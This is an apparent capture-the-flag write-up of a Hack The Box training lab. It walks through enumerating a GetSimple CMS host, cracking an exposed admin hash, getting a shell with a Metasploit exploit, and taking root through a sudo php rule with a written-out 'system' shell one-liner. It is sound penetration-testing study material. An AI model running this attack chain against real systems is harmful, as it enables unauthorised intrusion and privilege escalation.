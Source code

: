 # Nibbles - Knowledge Check
This is the first CPTS box without a guided walkthrough. 

## Report

**Date:** 2025-08-19  
**Author:** Arathorna
**Objective:** Gain a foothold of the system and escalate privileges

---

## 🖥️ Reconnaissance

### Nmap Scan
nmap --open -sV -oA HTB <target_ip>

<img width="635" height="233" alt="HTBLAB-nmap" src="https://github.com/user-attachments/assets/655b75a3-7951-4d08-ac1f-995fb1e6ec8c" />
Findings: 
22/tcp → OpenSSH 8.2p1 (Ubuntu Linux)
80/tcp → Apache httpd 2.4.41 (Ubuntu)
Host is Ubuntu with a http web server running on port 80.

## 🌐 Web Enumeration

### whatweb
whatweb <target_ip>
Findings: Web app is running HTTP Server Apache v2.4.41, GetSimple CMS detected 

### gobuster
gobuster dir -u http://<target_ip -w /usr/share/wordlists/dirb/common.txt

<img width="640" height="387" alt="HTBLAB-gobuster" src="https://github.com/user-attachments/assets/2353bb13-052a-49f5-8cc0-e2fb1d6f7d29" />

Findings: /admin → (admin login page), /data/users/admin.xml → Username: admin, hashed password, email: admin@gettingstarted.com

<img width="954" height="356" alt="HTBLAB-credentials" src="https://github.com/user-attachments/assets/70c4f2a9-e55d-4543-bad5-dc023057ef38" />

### 🔑 Credential Discovery
Cracked password hash with johntheripper → Admin Password: admin
Logged into /admin panel successfully.

<img width="664" height="422" alt="HTBLAB-john" src="https://github.com/user-attachments/assets/320fc758-d1dd-45bb-8ea1-f0a3c537e6f4" />


### 💥 Exploitation
GetSimple v3.3.15 vulnerability found in metasploit

<img width="611" height="66" alt="HTBLAB-GetSimple" src="https://github.com/user-attachments/assets/4ecee1d4-d39f-41e5-8224-0de185c8eee3" />


<img width="663" height="323" alt="HTBLAB-metasploit" src="https://github.com/user-attachments/assets/76e9b161-98d5-4794-906c-b90fce636f6c" />

<img width="555" height="486" alt="HTBLAB-exploit_options" src="https://github.com/user-attachments/assets/dc2c02c2-3d83-4334-b851-273fb096a4c7" />


Exploit completed successfully and spawned a shell

<img width="630" height="128" alt="HTBLAB-exploit" src="https://github.com/user-attachments/assets/dcab40ce-4746-4a66-bcd7-f6ff5a3a599e" />

Upgrade to Linux shell with "shell" then python script: python3 -c 'import pty; pty.spawn("/bin/bash")'


## 🚀 Privilege Escalation

Sudo -l gives us the following output: 

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php

This indicates we can run PHP commands as root.

Privilege escalation via GTFObins:

sudo php -r "system('/bin/sh');"

<img width="668" height="105" alt="HTBLAB-root" src="https://github.com/user-attachments/assets/0a94d5bb-d3fa-4511-86db-ee0991bc41c7" />


Gained a root shell. 





